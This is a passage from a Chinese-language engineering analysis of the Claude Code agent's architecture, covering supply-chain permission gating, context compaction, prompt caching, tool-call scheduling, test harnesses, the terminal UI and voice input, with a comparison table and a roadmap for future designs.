  * 作为运行在用户本地 Shell 权限下的程序，自动继承宿主机所有的镜像源与代理配置：读取 `~/.npmrc`（如企业私有源 Nexus、Verdaccio、镜像源）、`pip.conf`（`PIP_INDEX_URL`）、`~/.cargo/config.toml` 与 `GOPROXY`；
  * 在 CA 证书透明注入模块 `CaCertsManager` 中，自动将企业自定义自签名根证书注入 Node.js TLS 信任链，确保在受限内网或企业中间人代理环境下顺利拉取依赖包。
* **供应链生命周期投毒防御与权限门禁（命令权限评估门禁 `BashPermissionsGate`）**：
  * 由于开源包安装常附带 `postinstall`、`setup.py` 等自动执行任意 Shell 的生命周期脚本，存在极高的供应链投毒风险；
  * 系统在底层 AST 中将依赖安装命令严格标记为**改变环境状态的写命令（Mutating Commands）**。默认策略下，首次安装必须由终端向人类弹出审批卡片（Ask Permission），经开发者授权或配置白名单规则后方可执行。

* **多语言生态包管理器探测与安全安装策略对照表**：

| 语言生态 | 探测特征文件 (Lockfile / Manifest) | 首选包安装与解析命令 | 依赖图完整构建命令 | 供应链安装安全策略 |
| :--- | :--- | :--- | :--- | :--- |
| **Node.js** | `pnpm-lock.yaml` | `pnpm add <pkg>` | `pnpm install --frozen-lockfile` | 自动继承 `.npmrc` 私有镜像，`ignore-scripts` 拦截危险钩子 |
| **Node.js** | `yarn.lock` | `yarn add <pkg>` | `yarn install --immutable` | 校验 yarn 校验和，阻断未经白名单声明的二进制下载 |
| **Node.js** | `package-lock.json` | `npm install <pkg>` | `npm ci` | 审计 `postinstall` 脚本，高危网络外连弹窗拦截 |
| **Node.js** | `bun.lockb` / `bun.lock` | `bun add <pkg>` | `bun install --frozen-lockfile` | 毫秒级极速安装，沙箱中校验外部系统调用 |
| **Python** | `uv.lock` / `pyproject.toml` | `uv add <pkg>` | `uv sync --frozen` | 优先现代原生 Rust 管道，避免污染全局 site-packages |
| **Python** | `poetry.lock` | `poetry add <pkg>` | `poetry install --no-root` | 虚拟环境精准隔离，锁定 SemVer 语义化范围 |
| **Python** | `requirements.txt` | `pip install <pkg>` | `pip install -r requirements.txt` | 继承 `pip.conf` 内部镜像源，阻止无 hash 校验的构建 |
| **Rust** | `Cargo.lock` / `Cargo.toml` | `cargo add <crate>` | `cargo check` / `cargo build` | 锁定 `crates.io` 镜像源，隔离 build.rs 脚本执行权限 |
| **Go** | `go.mod` / `go.sum` | `go get <module>` | `go mod tidy` | 继承 `GOPROXY` 与 `GOPRIVATE` 企业内部环境代理 |


---

## 9. 上下文窗口治理与两级压缩系统（Token Engineering）

### 9.1 Token 估算模型与 4/3 保守乘数
在 上下文微压缩引擎 `MicroCompactor` 中，对 Token 估算施加 4/3 保守乘数，在到达物理红线前提前介入。

### 9.2 Micro-Compaction（微压缩）：时间触发与缓存编辑（Cache Edits API）
* **淘汰旧工具结果**：将早期调用产生的大量无用输出重写为 `[Old tool result content cleared]`；
* **`cache_edits` 突破性设计**：向 API 提交 `deletedToolIds`，直接在模型服务端裁剪 Prompt 缓存块，**不打碎缓存前缀，实现零失效重算的缓存命中！**

### 9.3 Auto-Compaction（全局自动压缩）：两阶段草稿总结与熔断器
在 压缩提示词装配器 `CompactionPromptBuilder` 中：
* 预留 20,000 Token 预算；
* 引入 `<analysis>` 草稿纸标签让模型梳理核心意图，后处理阶段剥离草稿标签，仅保留高密度 `<summary>` 边界消息；设置熔断器防止死循环反复压缩。

### 9.4 智能体上下文动态压缩三阶状态机（Compaction Decision State Machine）

```
                     会话交互持续进行 (Active Turns)
                                  │
                                  ▼
             当前 Token 占用 > 70% 上下文预算 (e.g. 140k / 200k)
                                  │
                                  ├──[否]──> 维持原状继续执行
                                  │
                                  └──[是]──> 进入【第 1 阶: Micro-Compaction (微压缩)】
                                                │
                                                ▼
                                   * 清理陈旧工具返回值 (Old Tool Results)
                                   * 替换为轻量存根: [Old tool result content cleared]
                                   * 向 API 提交 deletedToolIds 进行缓存增量剪裁
                                   * 维持 Prompt Cache 前缀不变 (0 击穿，0 重算)
                                                │
                                                ▼
                         微压缩后 Token 占用仍 > 80% (e.g. 160k / 200k)？
                                                │
                                                ├──[否]──> 恢复正常执行，节省 40% 显存
                                                │
                                                └──[是]──> 进入【第 2 阶: Auto-Compaction (全局压缩)】
                                                              │
                                                              ▼
                                                 * 挂起主事件循环，预留 20,000 Token 压缩缓冲区
                                                 * 装配专有总结提示词 CompactionPromptBuilder
                                                 * 强制模型在 <analysis> 草稿区进行全局推演
                                                 * 剔除代码细节，沉淀高密度决策到 <summary> 边界
                                                 * 会话重组为: [System Prompt] + [<summary>]
                                                              │
                                                              ▼
                                       极端边界: 压缩后会话仍超限 (如海量未解指令)？
                                                              │
                                                              ├──[否]──> 满血重生，开启下一轮长会话
                                                              │
                                                              └──[是]──> 进入【第 3 阶: 熔断与硬截断】
                                                                            │
                                                                            ▼
                                                               保留最新 2 条指令，丢弃历史并弹窗告警
```


---

## 10. 提示词工程与动态缓存装配体系（Prompt Engineering & Caching Architecture）

在 提示词常量表 `PromptConstants`（54 KB，915 行）与 分节注册与缓存边界管理器 `SystemPromptSectionsRegistry` 中，展现了 Anthropic 围绕大模型注意力机理与底层服务端 **Prompt Caching（前缀缓存）机制** 构建的极高水准系统工程。

### 10.1 动静分离与动态缓存分割线（`__SYSTEM_PROMPT_DYNAMIC_BOUNDARY__`）
* **跨组织全局缓存分割线**：
  系统在 Prompt 构建流水线中设定了核心物理边界标记：
  ```typescript
  export const SYSTEM_PROMPT_DYNAMIC_BOUNDARY = '__SYSTEM_PROMPT_DYNAMIC_BOUNDARY__'
  ```
  * **边界之前（Global Cacheable）**：定义核心系统角色、全局编码准则、通用工具契约与安全红线。所有此区域内容统一标记为 `scope: 'global'`，支持跨开发者、跨项目、跨组织在 Anthropic 推理集群中 100% 共享命中相同的 KV-Cache 物理显存块。
  * **边界之后（Dynamic Session-specific）**：仅用于注入当前开发者的工作区路径、Git 分支状态、环境变元、当前操作系统与终端尺寸、语言偏好及自定义 MCP 客户端指令。动态扰动被严格收敛在后缀区间，绝对不污染前缀缓存。

### 10.2 两级 Section 注册机制与缓存击穿防护（`systemPromptSection` 与 `DANGEROUS_`）
在 分节注册与缓存边界管理器 `SystemPromptSectionsRegistry` 中，系统将 System Prompt 解构为可插拔的结构化 Section，并实施严格的类型化缓存击穿治理：
* **`systemPromptSection(name, compute)`**：
  记忆化 Section，首次计算后存入内存 Map，在整个会话生命周期内长效复用，直至用户触发 `/clear` 或自动触发 `/compact` 时才允许清空重算；
* **`DANGEROUS_uncachedSystemPromptSection(name, compute, _reason)`**：
  针对易变动态区块的强约束接口。命名特意包含 `DANGEROUS_` 警示，**且强制要求开发者在参数中提供 `_reason` 字符串**，显式阐述为何该字段必须按轮次打破 Prompt Cache；
* **`resolveSystemPromptSections`**：
  统一异步装配引擎，严格按照注册顺序并行求值与缓存填充，确保任何 Section 的添加都不会引发隐式缓存击穿。

### 10.3 心理学调优与模型对抗性防御提示词（Behavioral & Psychological Steering）
Anthropic 在系统提示词中凝练了大量针对模型心理机制（如过度讨好、伪造通过、过早重构）的对抗性负反馈指令：
* **反过度工程（Anti-Overengineering）铁律**：
  * *“不要添加未被要求的特性、重构或所谓的改进；简单的 Bugfix 不需要清理周围无关代码；”*
  * *“不要为不存在的场景添加防御性降级或校验。信任系统内部代码和框架保证；”*
  * *“严禁过早抽象。三行相似代码优于过早构建的不成熟抽象（Three similar lines of code is better than a premature abstraction）。”*
* **反假阳性对冲（False-Claims Counterweight）**：
  * 针对 Capybara v8 专门设计的对冲指令：*“真实报告结果：如果测试失败，必须如实打印错误输出；如果未运行验证步骤，直接声明未运行，严禁暗示已验证成功。绝对不能为了制造假绿（Green Result）而压制或简略报错。”*
* **网络防投毒指令（Cyber Risk Instruction）**：
  * 在 网络安全防御指令集 `CyberRiskInstruction` 中严禁模型自发猜测或凭空捏造任何外部 URL，防范依赖供应链投毒与钓鱼注入。

### 10.4 角色隔离与系统标签协议（`<system-reminder>` 与 `<task-notification>`）
* **人机通信边界隔离**：在 系统提示词构建器 `SystemPromptBuilder` 中明确向模型声明——*“所有工具返回与系统提示均以 `<system-reminder>` 或 `<task-notification>` 注入，它们是内部控制信号，绝非来自用户的对话对象；严禁向系统标签致谢，严禁将机器信号作为交谈伙伴。”* 保证 Agent 在多事件并发注入时依然将注意力焦点钉死在人类用户目标上。

### 10.5 模型认知对齐与结构化标记语言：Anthropic XML 标签体系 vs. Hermes ChatML vs. OpenAI Tool Calls
在 结构化 XML 标记协议 `XmlTaggingProtocol` 与 系统提示词构建引擎（PromptEngine）中，Anthropic 确立了一套完整的基于 XML 标签的通信协议：
* **为什么 Anthropic 坚持采用 XML 标记语言？**
  * **流式容错（Streaming Fault-Tolerance）**：不同于 JSON 一旦缺失尾部逗号或花括号就会导致全解析崩溃，XML 标签在流式吐出时可以被正则表达式或增量状态机无损局部提取；
  * **长文本包容力（Content Robustness）**：代码中常常包含引号、换行、反斜杠与转义字符，将其嵌套在 JSON 字符串中极易导致模型转义失败；而在 XML 节点中，代码以原始字符序列包裹，几乎不会转义失效；
  * **注意力锚点对齐（Attention Saliency）**：开闭合标签（如 `<analysis>...</analysis>`）在 Transformer 自注意力矩阵中充当强诱导性锚点，能强制驱动模型进入结构化推理思维空间。
* **核心内置标签矩阵（XML Tagging Matrix）**：
  * `<analysis>`：显式开辟临时思考草稿区，强制模型在给出方案前写下推演过程，随后被系统无损剔除；
  * `<summary>`：Auto-Compaction 压缩边界消息，作为下一轮会话的最高权重记忆锚点；
  * `<system-reminder>`：注入工具报警与无限上下文保证，与用户消息强行解耦；
  * `<task-notification>`：子 Agent、云端 Ultraplan 与后台终端任务的标准化异步回执载荷；
  * `<tick>`：时间序列化心跳感知，告知 Agent 当前真实物理世界的毫秒时钟流动；
  * `<bash-input>` / `<bash-stdout>` / `<bash-stderr>`：明确区分终端回显与用户手工输入，严防将脚本执行输出误判为用户新的交互指令。

---

## 11. 工作流编排与双轨执行调度引擎（Workflow Orchestration & Task Scheduling）

在 核心决策与流式主循环 `CoreQueryLoop`、双轨工具并发与屏障编排器 `ToolOrchestrator` 与 协调者编排流水线 `CoordinatorPipeline` 中，构建了工业级 Agent 的多步骤工作流编排与状态流转系统。

### 11.1 双轨工具编排算法：只读并发与写操作串行屏障（`partitionToolCalls`）

在复杂软件工程任务中，模型往往在一轮回复中并发发起多个工具调用（例如同时读取 5 个不同模块的头文件）。若全部顺序执行，累积的网络 I/O 延迟将导致响应奇慢；若粗暴全量并发，当并发工具中混合了文件写入或 Shell 命令时，会引发严重的数据竞态、文件锁死与状态撕裂。调度引擎设计了**双轨动态分片调度算法（Dual-Lane Dynamic Partitioning）**：

* **调度分片算法核心实现伪代码**：
  ```typescript
  export type ToolCallBatch =
    | { type: 'concurrent'; toolCalls: ToolCall[] }
    | { type: 'serial'; toolCall: ToolCall };

  export function partitionToolCalls(
    toolCalls: ToolCall[],
    isReadOnlyTool: (name: string) => boolean
  ): ToolCallBatch[] {
    const batches: ToolCallBatch[] = [];
    let currentConcurrent: ToolCall[] = [];

    for (const call of toolCalls) {
      if (isReadOnlyTool(call.name)) {
        // 只读工具累积至当前并发批次
        currentConcurrent.push(call);
      } else {
        // 遇到写操作/副作用工具: 立即设立串行屏障
        if (currentConcurrent.length > 0) {
          batches.push({ type: 'concurrent', toolCalls: currentConcurrent });
          currentConcurrent = [];
        }
        // 写工具作为独立的串行批次
        batches.push({ type: 'serial', toolCall: call });
      }
    }

    if (currentConcurrent.length > 0) {
      batches.push({ type: 'concurrent', toolCalls: currentConcurrent });
    }

    return batches;
  }
  ```
* **执行管道控制（Execution Pipeline）**：
  1. **只读并发通道（Read-Only Lane）**：通过 `Promise.all` 驱动并发批次，受控于最大并发上限常数 `CLAUDE_CODE_MAX_TOOL_USE_CONCURRENCY = 10`，将多文件跨模块读取与 Grep 检索耗时压至一个网络 RTT；
  2. **写操作串行屏障（Write Barrier）**：一旦触发 `FileEdit`、`FileWrite` 或 `Bash`，调度器等待所有前置读取 Promise 敲定，清空并发通道后单步串行执行写工具，确保工作区状态原子推进。

### 11.2 上下文确定性原子提交队列（`queuedContextModifiers`）
* **并发数据竞争防范**：当多个读工具并行运行时，不同工具可能尝试同时修改上下文（如更新文件状态缓存、记录操作痕迹）；
* **暂存与确定性提交机制**：调度器使用 `queuedContextModifiers: Record<string, ((context: ToolUseContext) => ToolUseContext)[]>` 暂存修改器；待并发批次的所有 Promise 敲定后，严格按照模型生成调用的原始顺序依次调用 `modifier(currentContext)`，**彻底根除并发执行引发的内存状态竞态与脏读撕裂**。

### 11.3 Coordinator 协调者编排流水线与 Worker 上下文复用（Context Re-engagement）
在 协调者编排流水线 `CoordinatorPipeline` 中：
* **角色定位与工作流拆解**：Coordinator 作为流水线中枢，自身被剥离具体文件写入工具，专注于宏观任务拆解与结果综合，通过 `AgentTool` 派生下游 Worker；
* **Worker 上下文强复用机制**：协议强制约束 Coordinator 当 Worker 交付阶段性产出后，**必须通过 `SendMessageTool` 发送后续指令继续复用该 Worker**，充分复用该 Worker 进程已装载在上下文中的注意力 KV 缓存，杜绝盲目重复初始化子 Agent 引发的 Token 浪费与冷启动延迟。

### 11.4 任务状态机引擎与分级优先级队列（Task Lifecycle & MessageQueueManager）
* **标准化任务状态机（Task Interface）**：在 任务接口定义 `TaskInterface` 中将主会话（`LocalMainSessionTask`）、进程内子智能体（`InProcessTeammateTask`）、睡眠整理（`DreamTask`）与后台终端（`LocalShellTask`）抽象为统一的 `Task` 接口，严格受控于 `init` $\rightarrow$ `running` $\rightarrow$ `needs_input` $\rightarrow$ `stopped` / `completed` 状态机；
* **四级消息优先抢占队列（MessageQueueManager）**：在 分级优先级消息队列管理器 `MessageQueueManager` 中实现严格优先级消费：`用户中断指令（Esc / Ctrl+C）` $>$ `系统致命异常与合规阻断` $>$ `Slash 快捷命令` $>$ `标准交互消息`，确保复杂编排随时受人类干预控制。

---

## 12. 评测治具、确定性测试网与运行时脚手架（Harness, VCR & Observability）

### 12.1 VCR 确定性录制与重放 Harness（输入脱水与跨机确定性哈希）
在 确定性网络测试网治具 `DeterministicVCRHarness` 中：
* **全透明网络层劫持**：通过 `withVCR` 与 `withFixture`，在 `NODE_ENV === 'test'` 或 `FORCE_VCR=1` 时透明拦截底层的 Anthropic API 调用与 Token 计费；
* **输入脱水归一化（Dehydration Algorithm）**：为防止不同机器上的物理环境与操作系统路径（如不同开发者的主目录、系统临时文件夹或进程 PID）导致哈希不一致，Harness 在签名计算前执行 `dehydrateInput`，将物理绝对路径和临时句柄统一清洗为确定性占位符；
* **CI 确定性零波动回归门禁**：CI 环境下默认锁死网络并禁用新用例录制。一旦代码改动导致模型提示词、工具定义或消息结构产生 1 个字符的差异，VCR 会立即命中失败并抛错：`Fixture missing: ... Re-run tests with VCR_RECORD=1, then commit the result`，强迫开发者自审变更。

### 12.2 SDK 测试治具与无头运行模式（Headless Mode Harness）
* 在 消息规整与脱水模块 `MessagesNormalization` 中特意维护了针对 **SDK Harness 测试** 的消息合并与哈希一致性逻辑；
* 在 CLI 无头执行入口 `HeadlessCliEntry` 中内置标准 Headless 无头模式（通过 `--print`、`-p` 或非交互标志），使系统能够脱离 TUI 作为驱动引擎，直接嵌入到 SWE-bench、HumanEval 或工业级 CI 基准测试流水线中。

### 12.3 运行时工具安全执行治具（StreamingToolExecutor）
在 流式工具执行调度器 `StreamingToolExecutor` 中，充当所有工具调用的运行时宿主（Execution Harness）：
* 流式输入 JSON Schema 早期验证（Early Validation）；
* 毫秒级执行超时熔断与 AbortSignal 级联取消；
* 配合 AST 语法树遍历进行危险调用拦截与沙箱权限校验。

### 12.4 毫秒级冷启动与全链路性能分析仪（Startup & Query Profiler）
在 全链路性能分析探针 `StartupProfiler` 组件中：
* 将启动过程细分为 `import_time`、`init_time`、`settings_time`，配合 Node.js `perf_hooks` 毫秒级打点，并结合 Statsig 进行全网灰度采样，保障终端秒开体验。

### 12.5 VCR 确定性录制盒契约与脱敏哈希流水线（Cassette Data Schema & Hashing）

* **录制盒数据格式规范（TypeScript Schema）**：
  ```typescript
  export interface VcrInteraction {
    id: string;                      // 交互特征的确定性 SHA-256 哈希
    timestamp: number;               // 虚拟规范化时间戳
    request: {
      method: string;                // HTTP 动词 (GET, POST)
      url: string;                   // 归一化脱敏后的目标端点 (剥离机器名与内网 IP)
      headers: Record<string, string>; // 过滤 Authorization、Cookie、Date 等易变头
      bodyHash: string;              // 请求体的结构化规范化散列值
      normalizedBody: unknown;       // 排序键值后的请求载荷
    };
    response: {
      statusCode: number;            // HTTP 响应码 (200, 429...)
      headers: Record<string, string>;
      body: unknown;                 // 固化的静态输出载荷
    };
  }

  export interface VcrCassetteFile {
    version: '2.0';
    createdAt: string;               // 录制元数据
    sanitizationProfile: string;     // 使用的脱敏配置文件名
    interactions: VcrInteraction[];  // 录制的确定性交互序列
  }
  ```
* **确定性请求散列算法（Deterministic Request Hash Algorithm）**：
  1. 对请求体中的所有 JSON 对象键进行递归字典排序（Deep Key Sorting）；
  2. 将包含动态特征的字段（如 `timestamp`、`nonce`、`tempFilePath`）替换为确定性占位符；
  3. 通过 `sha256(canonicalMethod + ":" + canonicalUrl + ":" + canonicalSortedJson)` 生成 64 位不可逆十六进制摘要 `id`；
  4. 回放阶段以 `id` 命中内存索引，实现 0-ms 网络请求拦截与 100% 确定性回放。


---

## 13. 终端交互工程与极客级体验设计（TUI with React & Ink）

### 13.1 纯 TypeScript 移植的 Yoga Flexbox 布局引擎
在 纯 TypeScript Yoga Flexbox 布局引擎 中：
官方为了免除全平台编译 node-gyp 原生 C++ 扩展带来的安装痛点，**将 Meta 的 Yoga Flexbox 布局引擎全量移植为纯 TypeScript 实现**，在终端环境中实现了 100% 跨平台的标准 Flexbox 计算。

### 13.2 终端虚拟列表（VirtualMessageList）与零卡顿渲染
在 终端虚拟消息列表容器 `VirtualMessageList`（148 KB）中：
系统实现了**终端级虚拟滚动容器（`useVirtualScroll`）**，仅计算视口内部可见的行数进行终端绘制，内存占用与渲染帧率保持恒定。

### 13.3 置顶粘性提示词（Sticky Prompt）与终端渐进式搜索（Incsearch）
* **Sticky Prompt**：用户向上滚动翻阅几百行的工具输出时，用户的原始 Prompt 会自动固定在终端顶部第 0 行，始终保持上下文焦点。
* **增量搜索（Incsearch）**：在终端内部提供类似 Vim 的 `/` 实时渐进式搜索，支持匹配高亮、即时锚点定位与回跳。

### 13.4 内置电子宠物（Buddy / Companion）确定性 PRNG 彩蛋
在 终端陪伴宠物模块 `BuddyCompanion` 中：
基于用户 UUID 通过 `Mulberry32` PRNG 算法伪随机生成确定性的属性，具备稀有度、物种、帽子等，以 ASCII 精灵画在终端状态栏实时陪伴用户编程。

### 13.5 终端语音多模态流式输入：实时音频缓冲与 VAD 驱动的语音编程
在 语音流式识别管道组件（VoiceStreamSTT Pipeline）与终端管道 `VoiceStreamPipeline` 中，实现了终端字符界面下的按住即说（Hold-to-Talk）流式语音输入管道：
1. **Hold-to-Talk 终端按键捕获与自复位计时器（Auto-Repeat Timer）**：
   * 终端不同于浏览器 DOM，缺乏原生的 `keyup` 离散事件，只能接收操作系统键盘驱动派发的连续自动重复按键流（Auto-repeat key events）；
   * `useVoice` 巧妙构建了按键复位计时器状态机：当用户首次按下激活组合键时，初始化容错倒计时 `FIRST_PRESS_FALLBACK_MS = 2000`（吸收 macOS/Linux 较长的初始按键重复延迟）；当连续按键事件涌入时，将释放计时器动态重置为 `RELEASE_TIMEOUT_MS = 200`（舒适覆盖终端 30~80ms 的输入抖动）；一旦 200ms 内无新击键事件到达，系统立即断定用户已松开按键，自动停止录音并触发转录提交。
2. **跨平台原生录音管道与按需懒加载权限（Lazy Permissions Guard）**：
   * macOS 平台优先使用纯原生 `audio-capture-napi` 扩展，Windows/Linux 自动平滑回退至 `SoX` 流式子进程捕获 PCM 音频；
   * 为防范 CLI 冷启动阶段就触发 macOS TCC 麦克风系统权限弹窗打扰用户，系统通过动态按需导入机制（Dynamic Audio Module Import），将底层音频采集模块与本地特权依赖推迟至用户**首次激活语音按键时才按需懒加载（Lazy Load）**。
3. **编程域关键字注入（Voice Keyterms Boosting）与 BCP-47 规范化**：
   * 在 编程热词注入增强器 `VoiceKeytermsBooster` 中，客户端在建立 WebSocket 语音连接前，动态分析当前代码库的文件名、Git 分支名、常见编程语言关键字与专用名词，打包通过握手帧推送到 Anthropic 远端 `voice_stream` 引擎（底层对齐 Deepgram STT），进行模型端热词权重增强（Keyword Boosting），大幅消除 `camelCase`、`kebab-case` 与框架专有名词的语音误识；
   * `normalizeLanguageForSTT` 内置 15+ 语种的语言别名映射表与 BCP-47 校验，若输入非白名单语言则平滑回退至 `'en'`，杜绝 WebSocket 报 `1008 "Unsupported language"` 崩溃。
4. **终端 16 格 ASCII 动态声波可视化（Audio Level Waveform）**：
   * 录音过程中，音频流分块抽取 RMS 音量分贝，在 Ink 状态栏实时驱动 16 柱（`AUDIO_LEVEL_BARS = 16`）ASCII 振幅波形动态跳动；支持 `focusMode` 下 5 秒静音自动释放 WebSocket 连接（`FOCUS_SILENCE_TIMEOUT_MS = 5000`），兼顾沉浸式视觉交互与网络套接字资源治理。

---

## 14. 对新一代 AI Coding Agent 开发的系统级工程借鉴

| 维度 | 传统轻量 Agent 的常见做法 | Claude Code 的工业级演进方案 | 工程实施建议与收益 |
| :--- | :--- | :--- | :--- |
| **测试期计算与思考链** | 静态单模型或直接关闭思考 | **三态自适应思考（Adaptive / Budget / Disabled） + `ultrathink` 动态关键词拉满** | 新一代旗舰模型强行启用自适应思考防能力退化；支持根据用户输入的思考意图动态扩展计算量至 32k/128k Token 上限。 |
| **浏览器视界与 Web 运行时** | 仅依赖控制台与代码修改，无 Web 环境感知 | **Chrome Native Host + 双工 UDS + 内置 MCP 浏览器服务** | 纯 TS 跨平台 Native Messaging 无缝打通本地 Chrome，支持实时提取 DOM 树、Console 日志与全屏截屏，实现前后端调试闭环。 |
| **技能生态与自进化** | 静态内置死命令，扩展依赖手动配置重型 MCP | **文件系统 Skills 规范 + 自省提炼器（skillify）** | 随代码库 Git 分享团队最佳实践；支持交互式访谈用户操作轨迹并一键沉淀为自执行技能，形成知识飞轮。 |
| **终端流式语音交互** | 仅限键盘字符输入，长篇架构解释输入繁重 | **Hold-to-Talk 计时器状态机 + 编程域关键词注入 + 16格 ASCII 声波** | 突破终端无 keyup 限制；基于 Git/代码库词库解决代码专有名词识别率低问题，实现沉浸式口述编程。 |
| **结构化标记语言规范** | 纯文本粗暴混杂拼接，易受提示词投毒攻击 | **XML 标签隔离协议（`<system-reminder>`, `<bash-input>`, `<bash-stdout>`）** | 建立高保真物理防线，阻断模型因工具回显产生的指令劫持；利用 XML 结构自闭合特性提升长文本语义注意力聚焦度与流式容错。 |
| **IDE 深度双向穿透** | 终端与 IDE 各自为政，依赖开发者手动复制代码 | **反向局部 RPC 管道 + 祖先进程探测 + Selection/Diff 双向同步** | 终端智能体获得 VSCode/Cursor 级别实时上下文洞察力，实现无缝的人机共驾与编辑器代码直投。 |
| **本机文件 I/O 与读写优化** | 粗暴覆盖与阻塞全量读取，缺乏并发防冲突 | **危险设备路径硬拦截 + 未修改存根（FILE_UNCHANGED_STUB） + 原子重命名落盘 + 外部并发冲突检测** | 杜绝读取死循环挂死进程；节约 80%+ 重复读 Token；彻底根除幽灵覆盖与破损半截文件。 |
| **用户档案与多租户绑定** | 单一本地文本配置，凭据明文落盘无隔离 | **持久化 Device ID + 原生系统钥匙串 + CLAUDE.local.md 私有隔离 + 企业策略强覆盖** | 隔离团队共识与个人私有环境，防止私有沙箱密钥外泄进 Git；安全凭据加密存储，满足企业合规审计。 |
| **依赖管理与供应链安全** | 盲目执行命令或手动处理缺失依赖 | **Lockfile 自动探针 + 清单优先声明 + 宿主镜像源继承 + 生命周期脚本写权限门禁** | 自动适配现代包管理器（pnpm/uv/cargo/go）；完全复用宿主私有仓库与内网 CA；阻断 postinstall 恶意外连与供应链投毒。 |
| **提示词工程** | 静态超长单一大提示词，动态参数随时拼接 | **动静物理分界（`__SYSTEM_PROMPT_DYNAMIC_BOUNDARY__`） + 记忆化 Section** | 将跨组织通用前缀标记为 `scope: 'global'`，易变参数收敛于后缀，杜绝隐式 Prompt Cache 击穿。 |
| **工作流编排** | 粗暴并发或全串行，容易出现数据竞态 | **双轨编排（读并发 + 写串行屏障） + 修改器提交队列（queuedContextModifiers）** | 既保证了多文件读取检索的极速并发，又杜绝了写状态并发冲突与状态撕裂。 |
| **测试与治具** | 依赖在线真实 API 跑测试，成本高且不稳定 | **脱水 VCR 确定性录制（确定性流量磁带录制回放引擎 VCR Engine） + Headless SDK 治具** | 路径脱水保证跨机哈希一致；CI 离线零成本、零抖动无损回归，一字符不一致即阻断。 |
| **智能路由** | 静态加载全部工具与单一模型调用 | **三级智能路由**（Auto-Mode 权限评估 + Deferred Tools 动态拉取 + Model/Advisor 分级） | 解决 MCP 工具泛滥导致的 Token 膨胀与选择劣化；以 Haiku 前置筛选，兼顾低延时与高攻坚力。 |
| **多 Agent 协同** | 单一全能 Agent 承担所有逻辑 | **特化隔离子 Agent + Swarm 蜂群协同**（只读 Explore + 架构 Plan + 对抗 Verification） | 严控子 Agent 写权限，对探索型 Agent 默认设置 `omitClaudeMd: true`；蜂群采用基于带锁文件 Mailbox 与共享任务看板进行松耦合协同。 |
| **并发人机交互** | 子智能体抢占控制台，终端混乱死锁 | **分布式权限代理（Permission Delegation）** | Worker 将权限请求投递至 Leader 统一处理并异步回调，解决多智能体人机共驾的最大痛点。 |
| **规划推演** | 在本地同一会话内直接推演 | **Plan Mode 强制设计期 + Ultraplan 云端长考** | 强制先设计对齐再写代码；将超高难度架构探索卸载至云端旗舰模型长达 30 分钟后台深潜。 |
| **工作区迁移** | 依赖远程 Git 分支 push/pull | **Git Bundle 免推送瞬移（Teleportation）** | 将未暂存脏改动与完整历史打为 Bundle 秒级同步到远端容器沙箱，无需污染代码库分支。 |
| **测试验证** | 让模型自我编写测试并自我通过 | **反合理化对抗性验证（VerificationAgent）** | 明确在 Prompt 中列举模型的“逃避心理”；在测试报告中强制要求提供至少一项“破坏性探测”证据。 |
| **规则记忆** | 单一的系统提示词或单个 prompt 文件 | **四层层叠配置加载**（Managed $\rightarrow$ User $\rightarrow$ Project $\rightarrow$ Local） | 满足企业合规、团队统一与个人定制的诉求；采用基于反向优先级的拼接策略。 |
| **记忆更新** | 会话中随时由主模型随意改写规则 | **基于会话转录的后台空闲巩固（AutoDream）** | 引入多重门禁（时间 + 会话累积 + 文件锁），利用 Fork 隔离子 Agent 进行离线总结，杜绝实时会话的性能抖动与误删风险。 |
| **代码修改** | 生成整个文件覆盖，或生成 Unified Patch | **先读后写断言 + 唯一文本块精确替换** | 强制执行先读后写检查；利用唯一的 `old_string` 进行精准定位替换，容错率远高于标准 diff patch。 |
| **终端安全** | 简单的危险字符串正则过滤 | **AST 语法树级安全遍历 + 23 类模式分析** | 深度识别管道伪装、命令替换符 `$()`、环境变量混淆；将命令区分为“安全只读”与“破坏性写命令”，分别施加不同权限策略。 |
| **上下文压缩** | 达到阈值时全量丢弃早期消息或简单截断 | **两级压缩矩阵**（微压缩清空旧工具输出 + 结构化草稿自动压缩） | 优先执行微压缩，在支持的通道上使用 `cache_edits` API，保全其余 Prompt Cache 缓存块不失效。 |
| **终端 TUI** | 粗糙的 console.log 流式打印 | **React + Ink + Yoga Flexbox + 虚拟列表** | 全面使用纯 TS 移植的 Yoga 布局，配合视口虚拟滚动与置顶粘性提示词，打造极致流畅的现代化终端交互。 |

---

## 15. 前沿对照与架构演化路线图（SOTA Gap Analysis & Evolution Roadmap）

对照当前最前沿的 Coding Agent 架构实践，我们可以清晰定位出 `2.1.88` 存在的历史局限性，并梳理出向下一代架构演进的重构蓝图：

### 15.1 上下文治理与压缩：从“字符串占位替换”演进为“语义图谱与 KV-Cache 原生切片”

* **2.1.88 历史局限**：
  * 在 上下文微压缩引擎 `MicroCompactor` 中，非特权路径采用字符串替换为 `[Old tool result content cleared]`，会导致此位置之后的 **Prompt Cache（前缀缓存）全部失效重算**，引发首字延迟（TTFT）与计费暴增。
  * 上下文全局自动压缩引擎 `AutoCompactor` 中的线性全局总结会导致深层长尾技术细节发生信息熵坍塌。
* **SOTA 演进方案**：
  * **KV-Cache 原生切片与虚拟块管理（Virtual Chunked Cache）**：配合支持 PagedAttention / Chunked Prefill 的推理栈，客户端发送注意力掩码（Attention Mask）或虚拟块淘汰指令，在显存层直接释放中间工具的 KV 向量，而保留 Prompt 前缀与系统规则的缓存哈希。
  * **图谱化记忆取代纯文本 Summary（Graph-based Contextual Memory）**：放弃扁平化摘要，改用轻量级动态拓扑图（Knowledge DAG）。将任务状态、代码依赖、已知错误记录为节点与有向边，新一轮会话仅提取子图切片（Subgraph Projection），信息保真度提升一个数量级。

### 15.2 多智能体协作：从“磁盘文件轮询”演进为“内存事件总线与 CRDT 任务网络”

* **2.1.88 历史局限**：
  * 团队邮箱通信系统 `TeammateMailbox` 依赖向 `~/.claude/teams/{team}/inboxes/*.json` 写文件并通过 `lockfile` 进行 5~100ms 轮询。I/O 开销大，进程异常崩溃时易残留死锁，无法支撑 20+ 以上 Agent 的高频微协同。
* **SOTA 演进方案**：
  * **无锁化通信（Unix Domain Socket / 共享内存 / 内存轻量总线）**：单机采用 UDS 或内存管道，分布式环境采用轻量总线（NATS / ZeroMQ），实现**亚毫秒级（Sub-millisecond）事件推送**，废弃磁盘轮询。
  * **基于无冲突复制数据类型（CRDTs）的任务看板**：引入 Yjs 或 Automerge 等 CRDT 算法管理共享任务看板，任意 Agent 并发抢占认领无需全局文件锁，由数学算法保障最终一致性，原生支持跨宿主机的分布式蜂群。

